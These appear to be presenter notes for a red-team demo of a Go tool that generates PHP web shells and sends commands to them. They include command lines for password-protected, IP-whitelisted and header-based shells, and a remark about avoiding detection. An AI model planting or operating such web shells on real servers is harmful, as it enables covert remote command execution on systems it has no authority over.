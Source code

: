 - talk about php shells with button
- show the client working with the form shell
  - http://localhost:8000/php-web-shell.php
  - `go run main.go http://127.0.0.1:8000/shell2.php --param cmd -X POST --trimp '<pre>' --trims '</pre>'`
- These shells are cool, but they're a pain to use, and can sometimes get caught if they're popular enough.
- show generate command
  - `go run main.go generate php --no-file > shells/nice.php`
    - `go run main.go http://127.0.0.1:8000/nice.php --param c`
  - `go run main.go generate php --pass Optiv123 --pass-param k > shells/nice.php`
    - `go run main.go http://127.0.0.1:8000/nice.php --param c -P k:Optiv123`
  - `go run main.go generate php -w 127.0.0.1 > shells/nice.php`
    - show how you can run commands from local pc, but not the winserver
  - `go run main.go generate php -w 127.0.0.1,10.0.0.12 > shells/nice.php`
    - show how now you can
  - commands over headers: `go run main.go generate php --header User-Agent > shells/nice.php`
    - `go run main.go http://127.0.0.1:8000/nice.php --header User-Agent`

TEST FILE FUNCTIONALITY
FIX ENC -> XOR
